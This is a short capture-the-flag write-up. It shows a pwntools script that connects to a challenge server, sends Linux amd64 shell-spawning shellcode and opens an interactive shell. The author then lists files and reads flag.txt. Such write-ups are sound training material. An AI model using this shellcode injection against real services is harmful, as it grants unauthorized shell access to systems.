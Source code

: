 #### Exploit Script :
```
from pwn import *

context.arch='amd64'

ip= input("IP>> ")
port=input("PORT >> ")

p = remote(ip,port)
elf = ELF("main")


shellcode = shellcraft.amd64.linux.sh()
binary_shellcode = asm(shellcode)

p.recv()
p.sendline(binary_shellcode)
p.interactive()

```
Upon running this script on the given instance ` nc chall.ycfteam.in 6666`, I got the shell. Further I listed the files using the `ls` command and open the contents of the "flag.txt" file using `cat` comand to reveal the flag.

![image](https://github.com/Siva-PythonPirates/Nexus-Security-CTF-Writeup/assets/79368311/d6ca420d-6e21-4d17-a3ed-2a87e2d0705e)
